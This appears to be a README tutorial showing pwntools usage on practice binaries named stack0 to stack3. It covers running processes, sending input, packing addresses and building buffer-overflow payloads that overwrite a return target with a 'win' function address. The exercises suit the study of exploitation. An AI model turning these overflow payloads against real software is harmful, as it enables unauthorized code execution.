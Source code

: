 # PWNTools with Examples


<details>
	<summary>:heavy_check_mark: Executing an Application</summary>
	<p>

![img](assets/1-app-exec.png)

- Code
```py
# importing the module
from pwn import *

# specifying the binary location
elf = ELF("./stack0")

# executing the binary
p = elf.process()
```

- Script Output
![img](assets/1-app-script.png)

</p>
</details>


<details>
	<summary>:heavy_check_mark: Providing input for the application and obtaining the output</summary>
	<p>

![img](assets/2-inop-from-app.png)

- Code
```py
from pwn import *
elf = ELF("./stack0")
p = elf.process()

# send input to the application with \r\n at the end
p.sendline(bytes("aaaaaa", 'latin-1')) # need to send in encoded format, since unicode may convert address values to some other characters. 'Latin-1' encoding is used

# recieve the output form the application until the EOF character, $ can be replaced with anything the is a part of the applications output
# p.recvuntil('$') 
# p.recvall() # recives all the output from the application, since the output will be in the format we need to decode it to obtain normal format
print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/2-inop-script.png)

</p>
</details>

<details>
	<summary>:heavy_check_mark: Passing arguments to the application</summary>
	<p>

![img](assets/3-arg-pass.png)

- Code
```py
from pwn import *
elf = ELF("./stack1")

# procvide the argument in a list format, if there are multiple arguments provide like [arg1, arg2, .....argn]
p = elf.process(['ls'])

print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/3-arg-pass-script.png)

	</p>
</details>

<details>
	<summary>:heavy_check_mark: Packing the address</summary>
	<p>

![img](assets/4-address-pack.png)

- Code
```py
from pwn import *
elf = ELF("./stack1")

# creating a payload which fills the buffer and writes the target address in little endian format
# there are options like p16(), p32(), p64() packing options required for 16bit, 32bit and 64bit binaries respectively
# the p32() is of bytes type so the payload / the characters which will be appeded with the target value must be in bytes format
payload = b"a"*64 + p32(0x61626364)

p = elf.process([payload])
print(str(p.recvall(),'utf-8'))

```

- Script Output
![img](assets/4-address-script.png)

</p>
</details>

<details>
<summary>:heavy_check_mark: Executing with environment variables set </summary>
<p>

![img](assets/5-env-var.png)

- Code
```py
from pwn import *
elf = ELF("./stack2")

# setting environment variable on the executing phase, environment variables takes the dict data type "env={key1:value1, key2:value2,......keyn:valuen}"
p = elf.process(env={"GREENIE":'test'})

print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/5-env-script.png)

</p>
</details>

<details>
<summary>:heavy_check_mark: Finding address of a function </summary>
<p>

![img](assets/6-win-address.png)

- Completing the exercise with the found value
![img](assets/6-man-win.png)

- Code
```py
from pwn import *
# from pprint import pprint
elf = ELF("./stack3")

# display all the functions in the binary
# print(elf.symbols)
# print functions information in a pretty way
# pprint(elf.symbols)

# obtain a deciaml value of a specific funciton in the binary
win = elf.symbols['win']

# crafting payload, packing the decimal value as address
payload = b"a"*64 + p32(win)

p = elf.process()
p.sendline(payload)
print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/6-win-script.png)

</p>
</details>